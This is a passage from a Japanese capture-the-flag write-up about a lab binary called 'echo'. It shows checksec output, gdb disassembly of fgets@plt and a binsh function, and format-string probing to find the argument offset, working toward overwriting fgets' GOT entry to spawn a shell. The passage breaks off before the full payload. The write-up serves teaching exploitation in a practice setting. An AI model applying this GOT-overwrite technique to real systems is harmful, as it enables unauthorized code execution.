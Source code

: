 ```
vagrant@sig-ctf-2017:~/shared-folder/problems/echo$ checksec echo
[*] '/home/vagrant/shared-folder/problems/echo/echo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
これを見るとわかるように、Partial RELROに今回のechoバイナリはなっている。


### Exploitコード

　今回も簡易化のために、binshという関数が用意されている。方針としては、fgetsのGOTのアドレスをbinsh関数のアドレスで上書きする。

```
gdb-peda$ disass 0x80483c0
Dump of assembler code for function fgets@plt:
   0x080483c0 <+0>:	jmp    DWORD PTR ds:0x804a014
   0x080483c6 <+6>:	push   0x10
   0x080483cb <+11>:	jmp    0x8048390
```

および、

```
gdb-peda$ disass binsh
Dump of assembler code for function binsh:
   0x080484fd <+0>:	push   ebp
   0x080484fe <+1>:	mov    ebp,esp
   0x08048500 <+3>:	sub    esp,0x18
   0x08048503 <+6>:	mov    DWORD PTR [esp],0x80485f0
   0x0804850a <+13>:	call   0x80483d0 <system@plt>
   0x0804850f <+18>:	leave
   0x08048510 <+19>:	ret
```
から、目標のアドレスがそれぞれ0x804a014と、0x080484fdであることが確認される。

しばしば、FSBはpwntoolsのようなライブラリを使って必要な攻撃コードを用意することが可能であるが、今回はそれでは味気がないし何をしているのか分からない感じになるので、自分で攻撃コードを作る。

まず次のように何番目指定子が、実際の引数に当たるのかを調べる
```
vagrant@sig-ctf-2017:~/shared-folder/problems/echo$ ./echo
%x %x %x %x %x %x
64 f77b7c20 0 ffc823a4 25c82318 78252078
```
これを見ると"%x "にあたるAsciiの値列0x25 0x78 0x20の逆順（リトルエンディアンなので）が、5番目から6番目にかけて見える。したがって、ここが起点になることが分かる。今回、特定のアドレスを4byteでアラインされた位置に置く必要がある。これは、次のように直接参照するからで、

```
vagrant@sig-ctf-2017:~/shared-folder/problems/echo$ ./echo
%6$x
78243625
```

そのために、dummyで１文字最初に出力する
